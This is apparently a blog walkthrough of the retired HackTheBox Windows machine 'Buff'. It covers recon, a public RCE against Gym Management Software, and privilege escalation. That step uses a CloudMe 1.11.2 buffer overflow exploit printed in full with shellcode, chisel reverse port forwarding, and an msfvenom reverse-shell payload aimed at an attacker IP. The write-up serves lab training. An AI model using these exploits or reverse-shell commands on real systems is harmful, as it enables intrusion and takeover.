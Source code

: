 ```yaml
---
title: Buff - HackTheBox Walkthrough
date: 2021-10-18 12:00:00 
categories: [HackTheBox,Windows]
tags: [rce,chisel]
img_path: /assets/img/HTB/Buff/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Buff` a retired windows machine by HackTheBox rated easy. Without further ado, let’s begin.

# Recon
## Nmap Scan

As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Wed Oct 13 14:15:31 2021 as: nmap -sC -sV -v -Pn -oN nmap-scan 10.129.2.18
Nmap scan report for 10.129.2.18
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

The only port open is running HTTP, let´s check it out.

## HTTP Enumeration

![01-web](01-web.png)

Is a web site for a gym, the interesting thing is in `/contact.php`, it says that this site is using `Gym Management Software 1.0`

![02-web](02-web.png)

Searching this info on `searchsploit` I found this [RCE](https://www.exploit-db.com/exploits/48506)

![03-rce](03-rce.png)

# Initial Foothold

The exploit send a new request every time we send a command that's why we can't move from directory.
Upload a netcat on the victim machine and execute it, like the screenshot below.

![04-python](04-python.png)

`rlwrap` gives us access to history

```console
$ sudo apt install rlwrap
```
# Privilage Escalation

I could find a executable file named `CloudMe_1112.exe` inside shaun's downloads directory.

![05-cloudme](05-cloudme.png)

And this executable is vulnerable to a Buffer Oveflow

![06-cloudme](06-cloudme.png)

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)

```

Looking the code of the exploit, the script connect to a port that we don't have access to it.

![07-port](07-port.png)

It seems that we will have to make a remote port forwarding using [chisel](https://github.com/jpillora/chisel/releases), we need one binary for our linux and the other to the Windows machine.

![08-chisel](08-chisel.png)

```console
$ gunzip -d chisel_1.7.6*
$ mv chisel_1.7.6_windows_amd64 chisel.exe
$ mv chisel_1.7.6_linux_amd64 chisel
$ chmod +x chisel
```

Once we get the binaries just send the .exe to the vulnerable machine.
Execute this command in attacker machine
```console
$ ./chisel server --reverse --port 1234
```
and this in the victim machine
```console
$ ./chisel client <ipA>:1234 R:8888:localhost:8888
```

![09-chisel](09-chisel.png)

To get a shell we need change the payload of the exploit.

```console
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.70 LPORT=443 -b '\x00\x0A\x0D' -f python
```

![10-payload](10-payload.png)

Start a netcat listener on port 443 and run the exploit.

![11-root](11-root.png)

We got root.txt
That’s it for now guys. Until next time.

